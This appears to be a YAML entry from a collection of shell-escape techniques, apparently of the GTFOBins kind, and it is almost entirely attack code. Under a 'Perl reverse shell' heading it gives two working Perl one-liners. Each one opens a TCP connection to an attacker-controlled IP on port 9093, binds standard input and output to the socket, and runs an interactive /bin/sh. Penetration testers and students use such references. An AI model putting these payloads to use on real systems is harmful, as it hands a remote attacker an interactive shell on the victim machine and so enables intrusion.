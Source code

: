```yaml
---
functions:
  shell:
    - description: Perl reverse shell
      code: |
        use Socket;$i="10.10.10.10";$p=9093;
        socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
        if(connect(S,sockaddr_in($p,inet_aton($i)))){
        	open(STDIN,">&S");
        	open(STDOUT,">&S");
        	open(STDERR,">&S");
        	exec("/bin/sh -i");};

        use Socket;$i="10.10.14.11";$p=9093;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
---
```

